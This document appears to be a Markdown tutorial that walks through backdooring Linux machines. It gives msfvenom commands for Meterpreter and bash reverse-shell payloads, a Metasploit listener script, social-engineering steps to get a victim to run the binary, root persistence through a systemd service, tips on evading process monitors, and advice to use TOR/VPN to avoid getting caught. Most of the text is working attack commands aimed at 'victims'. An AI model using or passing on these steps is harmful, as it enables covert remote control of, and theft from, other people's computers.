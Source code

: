 # Backdoor to any Linux machine

**Myth:** It is said that Linux is secure and hasn't any viruses etc. Let's take a look. There is a general claim that no need for Antivirus software is required either. Well...

We won't create a true virus here. Just a backdoor. However, it opens up many possibilities for further hostile actions against Linux victim machines, including polluting the target Linux machine with multiple nasty viruses.

This is just a short technical demonstration without any true hostile attempts. Utilizing the method requires social engineering tactics, as well.

This method does not require any server software running on the victim's Linux machine. Just a simple client machine is OK.

**This tutorial assumes you will gain access to `sudo` or `root` terminal on victim's Linux machine by using social engineering tactics.**

--------------------

## How-to

**1) Generating backdoor.** Generate a simple Linux backdoor payload. On attacker machine, execute either:

A) Linux x86 binary backdoor payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<my_global_ip> lport=<my_global_port> -f elf -a x86 > ~/reverse_backdoor'
```

B) or alternatively generate a shell script backdoor payload:

```
msfvenom -p cmd/unix/reverse_bash LHOST=<my_global_ip> LPORT=<my_global_port> -f raw > reverse_backdoor_bash.sh
```

--------------------

**2) Router settings.** If you are behind a router, do PAT (Port Address Translation) where incoming connections to your router are coming from `<my_global_port>`. Let the router forward those to `<my_local_port>` in your local network.

**3) Metasploit listener script.** On your attack machine, add following file (edit contents as needed) and save it as 'backdoor-listener.rc'

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <my_local_ip>
set lport <my_local_port>
exploit

This is a metasploit script file we will utilize later. Please pay attention to `<my_local_ip>` and `<my_local_port>` values above.

---------------------------

<my_global_ip>   = IPv4 which is reachable from outside (WAN IPv4), usually provided by your ISP
<my_global_port> = Port number which is accessible from outside (WAN) networks
<my_local_ip>    = IPv4 used by your attack machine on the local network, usually static one or provided by a router
<my_local_port>  = Port number which is accessible on your local network

---------------------------

**4) Start Metasploit listener.** Run the above Metasploit script file with `sudo msfconsole -r backdoor-listener.rc` and keep the listener open on your Linux attack machine.

**5) Victim enticement - execution of the backdoor.** Send msfvenom-generated `reverse_backdoor` binary executable to the Linux victim and encourage him/her to execute it. Requires social engineering tactics.

**6) Who am i and which is my shell?** Once you have connection to the victim's Linux machine, run `whoami`, after which run `shell`. Both in meterpreter console view.

**7) Open Python-based Bash pseudo-shell.** We assume that the victim has python environment. On the opened empty shell view, just run the following commands (we assume the current user's shell is `/bin/bash`):

```
which python
python -c "import pty; pty.spawn('/bin/bash');"
```

On that code above, we check python binary existence on the Linux victim machine. If OK, then you can open bash with pseudo terminal python function.

**8) Prepare your foothold on victim's machine - persistence.** On victim's machine, copy 'reverse_backdoor' binary into `/usr/local/bin/` folder, and run

```
chmod +x /usr/local/bin/reverse_backdoor
```

**9) Add new auto-starting systemd service** Now, insert a new systemd service file 'reverse-backdoor.service' into `/usr/lib/systemd/system/` as follows:

echo -e "[Unit]\nDescription=SSH backdoor\nAfter=network.target network-online.target\n\n[Service]\nType=oneshot\nRemainAfterExit=yes\n\nExecStart=/usr/local/bin/reverse_backdoor\nExecStop=/usr/local/bin/reverse_backdoor\n\n[Install]\nWantedBy=multi-user.target" > /usr/lib/systemd/system/reverse-backdoor.service

**10) Enable the systemd service.** Run

```
sudo systemctl enable reverse-backdoor.service
```

**11) Test the systemd service.** To check if the service file succeeds, check the output of:

```
sudo systemctl start reverse-backdoor.service
```

**12) You are able to connect after victim's reboot.** If Ok, you should be able to login to the victim's Linux machine after rebooting it. Just make sure you have Metasploit TCP Handler/Backdoor listener on stand-by on your Linux attack machine.

-----------------------------------------

**Contents of /usr/lib/systemd/system/reverse-backdoor.service**

The following systemd service file contents is supposed to be added to `/usr/lib/systemd/system/reverse-backdoor.service` on victim's Linux machine.

```
[Unit]
Description=Backdoor
After=network.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/home/penguin/reverse_backdoor
ExecStop=/home/penguin/reverse_backdoor

[Install]
WantedBy=multi-user.target
```
-----------------------------------------

**Systemd vs. init**

Of course, you can adapt this systemd service file as `init` script as well. However, majority of Linux distributions come with systemd nowadays, except for Gentoo etc.

**Testing scope**

The instructions has been tested and work as expected. You gain root access on the victim's Linux machine, no matter which network the victim has connected to. You don't need to care about passwords either since the backdoor is executed as root during system boot-up. Actually, you can change the password and do what the hell you want on the victim's Linux machine. According to my remote tester (who was behind NAT), the opened hostile bash shell process is not visible on graphical system monitor view (this applies to XFCE, at least).

Victim can still detect the hostile shell process, other processes and opened network sockets with `netstat/sockstat` commands. However, distinguishing them from friendly processes is another thing...

-----------------------------------------

Simple attack schema:

```
<victim's Linux machine>  <--->  <ISP, etc.>  <--->  <your router>  <--->  <your attack Linux machine>

 <payload executable>                                                        <backdoor listener>
                  |->>       <my_global_ip>  <------------->  <my_local_ip>   <<-|
                  |->>     <my_global_port>  <------------->  <my_local_port> <<-|

    <execute file>      <--------------------------------------------->   <access victim's machine>
                            <<- valuable data, malicious commands ->>
```

In hardened scenarios, using TOR/VPN is recommended to avoid getting caught if illegal activies are performed.

-----------------------------------------
